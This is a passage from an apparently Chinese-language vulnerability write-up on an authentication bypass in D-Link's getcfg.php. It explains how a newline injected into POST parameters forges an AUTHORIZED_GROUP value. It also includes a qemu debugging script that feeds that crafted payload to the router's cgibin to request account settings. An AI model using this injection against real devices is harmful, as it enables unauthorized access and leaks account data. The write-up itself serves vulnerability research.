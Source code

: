 ![1.03-authrize-check](https://raw.githubusercontent.com/ray-cp/ray-cp.github.io/master/_img/2019-10-06-d-link-getcfg_php-info-leak/1.03-authrize-check.png)

然后调用`sobj_get_string`获取字符串后，调用`xmldbc_ephp`去最终执行php，`xmldb client`的[源码](https://github.com/coolshou/DIR-850L_A1/blob/master/comlib/libxmldbc.c)也在网上找到了，有需要的可以看看。

到这里就可以比较直观的看到问题所在，传入的参数以键值对的形式保存在`sobj`结构体里（其实就是字符串），并以`\n`符分割，同时权限验证的返回值也以键值对的形式保存在该结构体中以换行符分割，并且参数中的值比后面权限的验证值还在字符串的前面一些。

若我们传入的参数中包含`AUTHORIZED_GROUP=0`，由于参数解析的时候会加入一个类型最终变成`_POST_AUTHORIZED_GROUP=0`，因此无法绕过检查。但是由于参数解析的时候是使用`&`分割，但是字符串又以`\n`分割，因此若我们在参数中加入`\n`，因此可以绕过检查。如传入`a=b\nAUTHORIZED_GROUP=0`，最终经过处理后会变成字复还`_POST_a=b\nAUTHORIZED_GROUP=0`，导致解析出来了`AUTHORIZED_GROUP=0`，从而得以绕过后续页面的验证，实现未授权访问，导致信息泄露。

### 动态验证

觉得对于后续的这个cgibin有进一步调试验证的需要以帮助理解该漏洞。

使用qemu用户模式来进行调试，调试脚本为`cgi_run_phpcgi.sh`，用命令`sudo ./cgi_run_phpcgi.sh`使用qemu运行`cgibin`，并监听端口`1234`，bash脚本内容如下：

```bash
#!/bin/bash
# sudo ./cgi_run.sh

INPUT=`python -c "print 'SERVICES=DEVICE.ACCOUNT&attack=ture\nAUTHORIZED_GROUP=1'"`

LEN=$(echo $INPUT | wc -c)
PORT="1234"

if [ "$LEN" == "0" ] || [ "$INPUT" == "-h" ] || [ "$UID" != "0" ]
then
    echo -e "\nusage: sudo $0\n"
    exit 1
fi

cp $(which qemu-mipsel-static) ./qemu

echo "$INPUT"  | chroot .  ./qemu  -0 "/phpcgi" -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded"  -E REQUEST_METHOD="POST"  -E REQUEST_URI="/getcfg.php" -E REMOTE_ADDR="127.0.0.1" -g $PORT ./htdocs/cgibin "/phpcgi" "/phpcgi"#2>/dev/null
echo "run ok"
rm -f ./qemu
```
